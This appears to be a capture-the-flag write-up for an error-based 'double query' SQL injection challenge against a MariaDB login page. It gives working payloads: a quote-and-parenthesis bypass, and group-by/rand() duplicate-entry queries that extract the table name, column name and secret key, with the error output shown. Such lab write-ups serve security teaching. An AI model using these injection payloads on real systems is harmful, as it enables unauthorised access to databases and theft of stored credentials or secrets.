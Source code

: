 ## Challenge - 7

This challenge is based on double query injection and we have to use AND in this injection

### Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"\") LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id = ("input") 
```

We can check this using id=

```sql
0") or 1=1 --+
```

which will give us a login id and password. 

This challenge is similar to the previous one so we can use the same payload

### Solving

We can get the table name using: id=

```sql
1") AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```
Duplicate entry ':atq6embi71:1' for key 'group_key'
```

From which we get table_name = **atq6embi71**

Now we can get the column name using: id=

```sql
1") AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='atq6embi71' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```


Which will give the error:

Which will give the error:

```
Duplicate entry ':secret_FBCN:1' for key 'group_key'
```

From which we will get column_name = **secret_FBCN**

Now we can get the secret key using : id=

```sql
1") AND (select 1 from(select count(*),concat(0x3a,(select secret_FBCN from atq6embi71),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```
Duplicate entry ':qEKdaNo67NWnBrXPeEiUJk2w:1' for key 'group_key'
```

where the key is :

**qEKdaNo67NWnBrXPeEiUJk2w**